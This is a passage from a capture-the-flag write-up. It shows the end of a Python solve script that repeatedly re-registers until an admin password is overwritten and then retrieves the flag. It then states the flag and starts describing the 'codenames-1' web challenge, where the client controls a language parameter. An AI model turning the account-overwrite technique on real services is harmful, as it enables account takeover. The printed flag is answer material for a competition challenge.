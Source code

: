 ```python
        print("[+] FLAG:", (m.group(1) if m else body).decode(errors="ignore").strip())
    else:
        print(hdr.decode(errors="ignore"))
        
p = remote(HOST, PORT)

visit()

flag = False
for _ in range(200):
    status, text = register(p)
    if status == 200 and "Registered successfully" in text:
        print("[+] Admin password overwritten")
        flag = True
        break
    time.sleep(0.25)

get_flag()
```

![image](https://hackmd.io/_uploads/S1P6V0yjxe.png)

Now use the solve script, we will have the real flag in remote

`Flag: ictf{oops_ig_my_webserver_is_just_ai_slop_b9f415ea}`

## codenames-1

![image](https://hackmd.io/_uploads/Bya5zz1jgx.png)

The source is too long so I refer it here :

https://github.com/ImaginaryCTF/ImaginaryCTF-2025-Challenges/tree/main/Web/codenames-1/challenge

First, we should look at what the web is. This is the website for guessing cells game. 

![image](https://hackmd.io/_uploads/rycAWjksxl.png)

The lobby, there are 2 modes. Hard mode is that if you click on the opposite color then lose.

![image](https://hackmd.io/_uploads/SyTgfjkoel.png)

We can play with friends using code or add a bot to play with.

![image](https://hackmd.io/_uploads/S1ubGs1ige.png)

And this is the game:

![image](https://hackmd.io/_uploads/H1UCXi1sxx.png)

Now let spot on what we can do. when we create a game, we can control the language to send to the server.
